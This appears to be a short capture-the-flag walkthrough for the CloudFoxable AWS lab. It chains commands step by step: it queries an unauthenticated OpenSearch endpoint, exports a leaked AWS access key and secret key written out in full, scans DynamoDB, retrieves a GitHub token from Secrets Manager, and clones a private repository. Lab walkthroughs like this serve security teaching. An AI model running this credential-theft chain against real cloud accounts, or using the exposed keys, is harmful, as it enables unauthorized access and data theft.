 #### Run cloudfox endpoints
❯ cloudfox aws -p cloudfoxable_start endpoints -v2

#### Browse to opensearch endpoint (exposed to only your IP with no authentication)
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/

#### find flag 
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&q=flag
or
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&size=100

#### find key
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&q=key_id
or
https://search-example-x7fmapx6yfr23auv6in2h3u7ge.us-west-2.es.amazonaws.com/_search?pretty=true&size=100

### set found keys and call get-caller-identity

❯ export AWS_ACCESS_KEY_ID=AKIAQXHJKLZKKBSKZR5T
❯ export AWS_SECRET_ACCESS_KEY=harXmptWK/vdcmroXgDvN++7rCK3HfleU76hGY0o
❯ aws sts get-caller-identity
{
    "UserId": "AIDAQXHJKLZKOOMTQT72R",
    "Account": "049881439828",
    "Arn": "arn:aws:iam::049881439828:user/Xavi"
}

#### Find permisisons for Xavi

❯ cloudfox aws -p cloudfoxable_start permissions -v2 --principal Xavi


### Read the DB you hvae access to

aws --region us-west-2 dynamodb scan --table-name example-table

### Find flag


### Access the cloudfox secrets loot file
❯ cat pull-secrets-commands.txt
aws --profile $profile --region us-west-2 secretsmanager get-secret-value --secret-id github-pat

export profile=ml-engineering


❯ aws --profile $profile --region us-west-2 secretsmanager get-secret-value --secret-id github-pat

### Install gh command line tool and authenticate with token

echo TOKEN_VALUE > token
gh auth login --with-token < token
gh repo list

## Find the private repo and clone it

❯ gh repo clone cloudfoxable/super-secret-ML-stuff

## Find the flag
